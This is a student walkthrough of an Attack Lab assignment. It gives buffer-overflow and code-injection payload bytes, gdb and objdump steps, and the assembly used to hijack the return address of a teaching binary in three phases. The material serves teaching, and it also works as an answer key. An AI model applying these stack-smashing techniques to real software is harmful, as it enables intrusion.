 # Attack Lab Walkthrough
by Kai Schuyler
## Solutions:
Phase 1:
```
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  /* touch1 address: */
  66 14 40 00 00 00 00 00
```
Phase 2:
```
  48 c7 c7 f1 1e d6 5c c3
  00 00 00 00 00 00- 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  78 04 67 55 00 00 00 00
  94 14 40 00 00 00 00 00
```
## Phase 1
```
0000000000401450 <getbuf>:
  401450:	48 83 ec 28          	sub    $0x28,%rsp
  401454:	48 89 e7             	mov    %rsp,%rdi
  401457:	e8 94 02 00 00       	callq  4016f0 <Gets>
  40145c:	b8 01 00 00 00       	mov    $0x1,%eax
  401461:	48 83 c4 28          	add    $0x28,%rsp
  401465:	c3                   	retq   

0000000000401466 <touch1>:
  401466:	48 83 ec 08          	sub    $0x8,%rsp
  40146a:	c7 05 08 e5 2e 00 01 	movl   $0x1,0x2ee508(%rip)        # 6ef97c <vlevel>
  401471:	00 00 00 
  401474:	48 8d 3d e1 08 0c 00 	lea    0xc08e1(%rip),%rdi        # 4c1d5c <_IO_stdin_used+0x27c>
  40147b:	e8 20 21 01 00       	callq  4135a0 <_IO_puts>
  401480:	bf 01 00 00 00       	mov    $0x1,%edi
  401485:	e8 d6 04 00 00       	callq  401960 <validate>
  40148a:	bf 00 00 00 00       	mov    $0x0,%edi
  40148f:	e8 dc f7 00 00       	callq  410c70 <exit>
```
  * Input a string S with 40 + 8 bytes = 48 bytes
  * First 40 bytes can be anything
  * Last 8 bytes have to point to touch1()
  * insert 40 bytes seperated by whitespace into text file.
  * 0000000000401466 is the address of touch1
  * insert into sol.txt file in reverse order seperated by whitespace.
  * text file should look something like this: 
    ```
      00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
      /* touch1 address: */
      66 14 40 00 00 00 00 00
    ```
  * now call hex2raw on text file and send output directly into ./ctarget, our first attack string is done.
    * `cat phase1sol.txt | ./hex2raw | ./ctarget`

## Phase 2
  * open cookie.txt
    * copy address `0x5cd61ef1`
  * create a file called phase2.s
    * add the following assembly:
    ```
    mov $0x5cd61ef1, %rdi 
    ret
    ```
  * compile phase2.s
    * `gcc -c phase2.s`
  * get dissasembly of phase2.o:
    * `objdump -d phase2.o`
    ```
    phase2.o:     file format elf64-x86-64
    Disassembly of section .text:

    0000000000000000 <.text>:
      0:	48 c7 c7 f1 1e d6 5c 	mov    0x5cd61ef1,%rdi
      7:	c3                   	retq   
    ```
  * copy values in second section (between `0:` and `mov` and between `7:` and `retq`) into a phase2sol.txt file
  * add the size 40 buffer after the first line
    ```
    48 c7 c7 f1 1e d6 5c c3
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ```
  * run gdb on ctarget with breakpoint at getbuf
    * `gdb ctarget`
    * `(gdb) b getbuf`
  * get register information
    * `info r`
    * copy `rsp` value
      * `0x556704a0`
    * subtract value by `0x28`, the buffer size
      * `0x55670478` is the result
  * enter in phase2sol.txt, again in reverse order and add buffers
    ```
    48 c7 c7 f1 1e d6 5c c3
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    78 04 67 55 00 00 00 00
    ```
  * now look at touch2
  ```
  0000000000401494 <touch2>:
    401494:	48 83 ec 08          	sub    $0x8,%rsp
    401498:	89 fa                	mov    %edi,%edx
    40149a:	c7 05 d8 e4 2e 00 02 	movl   $0x2,0x2ee4d8(%rip)        # 6ef97c <vlevel>
    4014a1:	00 00 00 
    4014a4:	39 3d da e4 2e 00    	cmp    %edi,0x2ee4da(%rip)        # 6ef984 <cookie>
    4014aa:	74 2a                	je     4014d6 <touch2+0x42>
    4014ac:	48 8d 35 f5 08 0c 00 	lea    0xc08f5(%rip),%rsi        # 4c1da8 <_IO_stdin_used+0x2c8>
    4014b3:	bf 01 00 00 00       	mov    $0x1,%edi
    4014b8:	b8 00 00 00 00       	mov    $0x0,%eax
    4014bd:	e8 0e 00 05 00       	callq  4514d0 <___printf_chk>
    4014c2:	bf 02 00 00 00       	mov    $0x2,%edi
    4014c7:	e8 8c 05 00 00       	callq  401a58 <fail>
    4014cc:	bf 00 00 00 00       	mov    $0x0,%edi
    4014d1:	e8 9a f7 00 00       	callq  410c70 <exit>
    4014d6:	48 8d 35 a3 08 0c 00 	lea    0xc08a3(%rip),%rsi        # 4c1d80 <_IO_stdin_used+0x2a0>
    4014dd:	bf 01 00 00 00       	mov    $0x1,%edi
    4014e2:	b8 00 00 00 00       	mov    $0x0,%eax
    4014e7:	e8 e4 ff 04 00       	callq  4514d0 <___printf_chk>
    4014ec:	bf 02 00 00 00       	mov    $0x2,%edi
    4014f1:	e8 6a 04 00 00       	callq  401960 <validate>
    4014f6:	eb d4                	jmp    4014cc <touch2+0x38>
  ```
  * enter touch2 address into phase2sol.txt, again in reverse order
    * 
    ```
    48 c7 c7 f1 1e d6 5c c3
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    78 04 67 55 00 00 00 00
    94 14 40 00 00 00 00 00
    ```
  * check solution, call the ctarget with phase2 answer
    * `cat phase2sol.txt | ./hex2raw | ./ctarget`
## Phase 3
* Similar to phase 2, but now we have to pass cookie as string
* total bytes for the cookie are `buffer + 8 bytes for return address rsp + 8 bytes for touch3`
* `0x28 + 0x8 + 0x8 = 0x38`
* `$rsp` = `0x556704a0`, cookie = `0x5cd61ef1`
* `$rsp` - `0x38` - `0x5` = `0x55670463`
* make phase3.s with following assembly code:
```
mov $0x55670463, %rdi
ret
```
* complile
  * `gcc -c phase3.s`
* disassemble
  * `objdump -d phase3.o`
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 63 04 67 55    mov    $0x55670463,%rdi
   7:   c3                      retq   
```
* this will be the first line in our new text file

Text File `phase3sol.txt`:
```
48 c7 c7 63 04 67 55 c3 /* assembly */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* end of padding */
78 04 67 55 00 00 00 00 /* ret to buffer begin */
ab 15 40 00 00 00 00 00 /* touch3 address */
35 63 64 36 31 65 66 31 00 /* cookie address */
```
* then we add 4 lines of padding to make the buffer equal to `0x28` (40)
* 6th line will be the return address of the buffer
* 7th line will be address of touch3: `4015ab`
* last line will be the string representation of the cookie as hex
  * determined with ASCII table